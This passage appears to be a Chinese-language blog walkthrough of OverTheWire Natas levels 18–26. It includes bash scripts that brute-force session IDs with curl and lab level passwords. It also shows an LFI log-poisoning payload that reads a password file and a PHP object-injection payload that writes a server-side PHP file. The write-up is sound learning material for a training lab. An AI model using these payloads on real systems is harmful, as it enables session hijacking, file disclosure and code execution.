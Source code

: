 {% highlight bash %}
#!/bin/bash

for i in `seq 640`; do
    curl -su natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP -b "PHPSESSID=$i" http://natas18.natas.labs.overthewire.org | grep -i 'Password:'
done
{% endhighlight %}
            
跑了好几分钟……


*   **natas19**  
    同上题类似，不过session id不再是数字了。观察发现他是id-admin每个字符hex表示。还是暴力破解： 
    
{% highlight bash %}
#!/bin/bash

for i in `seq 640`; do
    id=`echo -n "$i-admin" | hexdump -v -e '1/1 "%02x" ""'`
    curl -su natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs -b "PHPSESSID=$id" http://natas19.natas.labs.overthewire.org | grep -i 'Password:'
    if [ $? -eq 0 ]; then
        break
    fi
done
{% endhighlight %}
                

*   **natas20**  
    传入参数存在注入，可添加值到session中。具体地，先将username设为"a\nadmin 1"，提交后再重新载入页面，可得密码
*   **natas21**  
    本身没看出来问题，但colocated的那里可任意修改session的值。在那里我们把admin设为1，然后用同样的session id访问原先的页面即可。
*   **natas22**  
    想要显示密码，就要设query，但这就会先redirect。于是我们不去跳转： 
    <pre>curl -su natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org?revelio=1</pre>
                    

*   **natas23**  
    PHP自动类型转换。只要字符串以数字开头，且数字大于10即可。输入12iloveyou得到密码
*   **natas24**  
    PHP5.3之后，strcmp在比较数组与字符串时，会返回0。于是把passwd作为一个数组传递就行
*   **natas25**  
    LFI，虽然`../`背替换成空，但可以用`..././`绕过。关键是检测到natas_webpass就终止了，所以不能直接include密码文件 
    但另一方面，我们可以通过user-agent写任意内容到服务器，这样就可以了。具体地，先request一个非法的query，user-agent设为`<php include('/etc/natas_webpass/natas26'); ?>`，这样payload就会被写入日志文件，而这个文件的名字是可从session id获知的。
                        
    接下来，LFI我们的日志文件，就读到了密码
*   **natas26**  
    定义了一个类Logger，却完全没用，所以是object injection。 
    具体地，`__destruct`会被调用，也就是我们可以写东西。看下面发现img文件夹应该是可写的，那我们就在其下写一个php文件。
                            
    我开始是想直接写一个include密码的文件，但传进去后似乎报错；echo字符串都能用，不知道是为什么……好在写文件是append，所以分了两次，把payload写到文件里。下面是第二次的
                            
{% highlight php %}
<?php
class Logger{
private $logFile = 'img/2.php';
private $initMsg; 
private $exitMsg = ' echo file_get_contents($s);?>';
}

$s = new Logger();
echo base64_encode(serialize($s));
?>
{% endhighlight %}
